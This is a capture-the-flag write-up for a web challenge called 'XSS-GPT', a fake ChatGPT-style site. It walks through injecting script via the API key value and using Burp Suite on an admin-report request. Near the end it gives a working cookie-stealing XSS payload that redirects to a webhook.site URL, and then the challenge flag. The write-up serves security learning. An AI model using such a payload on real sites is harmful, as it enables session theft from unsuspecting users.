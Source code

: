 ## XSS-GPT
![image](https://github.com/user-attachments/assets/8479e899-7598-44fc-b4e0-c80bac8e3c72)

# Description :
I built a chatgpt website using chatgpt. Feel free to try it! Remember to report to me if you found any bug

# Solution :

![image](https://github.com/user-attachments/assets/cd35f7db-48be-43b8-853f-879741ba8250) <br>
The challenge will bring us to a link that looks like chatgpt. I'm not allow to progress further as it says I do not have the API key but we can see that we have a lead that we can 
try to tamper with the API key value with other things
<br>
<br>

![image](https://github.com/user-attachments/assets/cc0c29db-0c5c-4645-bf5b-f5ed15d8480d) <br>
Since the challenge says XSS GPT, I try it rit away and it worked.A little changes is that the XSS payload needs to starts with the closing of </script> else it will not work because the API key part is wrap inside the JS script
<br>
<br>

![image](https://github.com/user-attachments/assets/08b40eda-e0a7-4b3d-9e32-d0166ff15083)
XSS is aa success and now we will look for a place to exploit it and get the API key. When going thru the reportAdmin() function will send a POST request to the API's endpoint along with the key. 
<br>
<br>

![image](https://github.com/user-attachments/assets/ce4526ba-a301-4ddc-900a-4b3a7e797624)
Fire up BurpSuite and capture the reportAdmin request, we can see that is a POST request and the key is an empty value. With these 2, we can use the webhook method. Our solution will be sending our XSS payload inside the POST request and get the latest changes happen in webhook.site hosting service

![image](https://github.com/user-attachments/assets/ca3034f4-b787-4524-9719-41c0d465c2fc)
Search webhook.site, by default they will prepare a hosting site for you, copy it and paste it in BurpSuite

![image](https://github.com/user-attachments/assets/66d95877-39ac-4c11-9f66-31f81b186f6d)
We will be using combination of cookie stealing and redirection. To make sure that the request will be redirected to the webhook hosting site we use and steal the cookie.

![image](https://github.com/user-attachments/assets/36963aa9-c499-49ef-b70f-9a50613182ea)
The payload will look like this: <br>
</script><script>location.href="https://webhook.site/96439999-db2f-41af-8027-7f1f50a00e31?c="+document.cookie</script> <br>

![image](https://github.com/user-attachments/assets/a1e70c8a-812d-482c-8ecf-d31576d5c866)


![image](https://github.com/user-attachments/assets/ef6afacc-a7d0-4610-945d-70113e584f18)
**FLAG**
```
SKR{R3flec73D_1n_API_k3y_e9bc37}
```
